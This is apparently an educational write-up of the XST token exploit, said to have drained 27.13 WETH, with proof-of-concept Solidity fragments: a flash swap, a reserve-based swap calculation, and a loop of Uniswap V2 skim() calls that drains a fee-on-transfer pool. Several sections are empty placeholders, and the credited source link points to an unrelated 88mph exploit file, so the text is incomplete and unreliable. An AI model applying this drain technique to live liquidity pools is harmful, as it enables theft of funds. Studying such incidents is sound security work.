

# XST

## What's XST?


## Amount stolen
27.13 WETH


## Vulnerability


## Analysis


### Exploited code

```solidity
   code here
```

# proof of concept (PoC) 


#### get values


```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); // r0 : XST r1 WETH
```


//fpormula image here

```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```


//parameter image here


```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


#### skim

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens that have been accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


```solidity
   // sell XST to WETH
          // XST is SupportFeeOn Token
          XST.transfer(address(Pair2), XST.balanceOf(address(this)));

```





**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
